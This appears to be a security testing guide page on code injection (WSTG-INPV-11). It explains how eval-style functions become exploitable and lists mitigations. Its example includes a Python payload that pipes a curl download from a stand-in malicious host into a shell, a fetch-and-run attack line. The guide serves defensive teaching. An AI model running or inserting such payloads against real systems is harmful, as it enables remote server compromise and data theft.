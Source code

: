 **WSTG-INPV-11**

Test Name----\> Testing for Code Injection

Objectives---\> \- Identify injection points where you can inject code into the application.

\- Assess the injection severity.

**Overview-**

Code Injection occurs when an attacker is able to insert and execute arbitrary code within the context of a vulnerable application. Unlike SQL injection or XSS which are scoped to database queries or browser scripts, code injection directly targets the application’s execution environment—like the underlying OS, language interpreter (Python, PHP, etc.), or shell.

This vulnerability typically arises when user-supplied input is directly passed into functions that evaluate code (e.g., eval(), exec(), system(), popen(), etc.) without adequate sanitization. If exploited, attackers can execute system commands, read sensitive files, escalate privileges, or gain full control over the server.

Code injection is dangerous because it doesn't just manipulate logic—it **runs the attacker's code** within the trusted environment of the app, potentially bypassing all authentication, access control, and integrity mechanisms.

**Real World Example-**

**The Incident:**  
A financial analytics tool allowed premium users to create custom formulas using a web interface. These formulas were passed to a Python backend and evaluated using the eval() function.

A user submitted the following as their "custom formula":

\_\_import\_\_('os').system('curl http://malicious.site/shell.sh | sh')

Instead of a financial formula, this payload executed a shell script from a remote server. The application blindly passed the formula to eval(), resulting in:

eval("\_\_import\_\_('os').system('curl http://malicious.site/shell.sh | sh')")

**What Went Wrong:**

* The application trusted user input and executed it within the Python interpreter.  
* It lacked sandboxing or validation for the “formula” inputs.  
* The attacker remotely executed a reverse shell and gained persistent access to the server.

This classic case of command/code injection resulted in full server compromise, data exfiltration, and massive regulatory liabilities due to sensitive financial data exposure.

**How the Vulnerability occurs-**

Code injection typically stems from one or more of the following design flaws:

* **Dynamic execution functions** (eval, exec, popen, system, shell\_exec) receiving unsanitized user input.

* **Templating engines** that process user data insecurely (e.g., Jinja2 with autoescape disabled).

* **Insecure deserialization** mechanisms that parse user data and reconstruct code objects or class instances.

* **Scripting interfaces or plugins** where user-supplied code is treated as trusted input.

* **Misconfigured language interpreters or wrappers** that execute arbitrary scripts from input parameters.

**Common injection vectors include:**

* URL parameters

* Form fields

* Headers

* Query strings

* API payloads

* Environment variables

**Severity spectrum:**

* Low: Denial of service via infinite loops or recursion.

* Medium: Access to local files or limited shell commands.

* High: Full remote code execution (RCE) with privilege escalation.

**Secure Coding Recommendations-**

  **Avoid dynamic execution:** Eliminate the use of dangerous functions like eval(), exec(), popen() unless absolutely necessary.

  **Use safe interpreters or sandboxes:** For user-submitted code (e.g., in coding platforms), execute within isolated, resource-constrained containers.

  **Sanitize and validate input strictly:** Apply strict input validation (whitelisting, type enforcement, max length).

  **Use parameterized APIs:** Don’t build system or interpreter commands by string concatenation—use high-level safe APIs wherever possible.

  **Disable or limit risky interpreter features:** If using languages like Python, restrict \_\_import\_\_, file access, and system command execution.

  **Enable least privilege:** Ensure the app runs with the minimal OS and application-level permissions.

  **Perform static code analysis:** Use security linters and SAST tools that detect insecure function use.

  **Log and alert unusual activity:** Monitor for suspicious command patterns or outbound traffic to strange domains.

**Mitigation Steps (Developer Focused)-**

  **Eliminate Dangerous Functions:**

* Avoid using functions like eval(), exec(), shell\_exec(), popen(), system() altogether.  
* If needed, scope them tightly to internal, hardcoded inputs.

  **Use Parameterized Libraries:**

* Instead of shell commands, use native APIs or libraries (e.g., use Python's subprocess.run() with args as a list).

  **Input Validation and Whitelisting:**

* Enforce strict format, type, and length checks on inputs.  
* Reject inputs containing special characters (e.g., ; | & \\ $ () \<\>\`) unless explicitly required.

  **Use Execution Sandboxing:**

* Run user-generated code in isolated environments (e.g., Docker containers with limited access).  
* Set resource limits (CPU, memory) to prevent abuse.

  **Secure Configuration and Logging:**

* Disable unnecessary system features.  
* Audit logs for anomalies like unexpected command executions or new user creation.

  **Security Testing:**

* Include code injection in security test plans and penetration testing scope.  
* Use tools like [CodeQL](https://securitylab.github.com/tools/codeql/) or [Bandit](https://bandit.readthedocs.io/) to detect dangerous code patterns.

